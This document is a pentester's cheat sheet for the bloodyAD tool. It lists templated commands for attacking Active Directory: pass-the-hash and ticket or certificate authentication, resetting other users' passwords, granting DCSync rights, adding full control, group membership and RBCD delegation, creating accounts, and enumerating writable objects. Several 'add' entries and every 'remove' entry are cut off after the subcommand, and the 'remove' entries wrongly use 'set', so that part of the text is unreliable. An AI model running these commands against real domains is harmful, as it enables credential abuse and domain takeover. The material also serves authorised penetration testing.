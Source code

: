 # bloodyAD

% windows, Active directory
#plateform/linux #target/remote  #cat/ATTACK/DACL-ABUSE

## auth (cred)
```bash
-u <user> -p <password>
```

## auth (pth)
```bash
-u <user> -p :<nt_hash>
```

## auth (ptt)
```bash
-k
```

## auth (cert)
```bash
-c <key_path>:<pem_path>
```

## cross-domain actions
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p
```

## set - change user password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Zaebuj12345+->' 
```

## set cross-domain - change user password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <target_dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Zaebuj12345+->' 
```

## set - add/replace/delete target attribute  (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set object <target_dn> <attribute> -v <value>
```

## set - object onwer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```



## add - add computer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add computer  <computer_name|jubeaz> <computer_password|Zaebuj12345+->
```
## add - DCSync right (pth)
https://github.com/CravateRouge/bloodyAD
sAMAccountName, DN, GUID or SID of the trustee
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add  dcsync <trustee>
```
## add - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add dnsRecord   
```
## add - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add genericAll <target> <trustee>
```
## add - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add  groupMember <group_sam> <target_sam>
```
## add - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add  rbcd <target>  <source>
```
## add - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - user (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add user <sAMAccountName|jubeaz> <password|Zaebuj12345+-> 
```

## get - list children of an object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - DNS dump records (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> get dnsDump --zone <domain_fqdn>  
```
## get - membership (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> get membership <target_sAMAccountName>
```
## get - object with dacl (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> get object --resolve-sd <target_sAMAccountName>
```
## get - search (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> get search --filter '<ldap_filter|(objectClass=*)>' --attr <comma_sep_attr_list|'*'> --resolve-sd  <search_base|DC=domain,DC=tld>
```
## get - writable (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> get writable
```

## remove - DCSync (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```

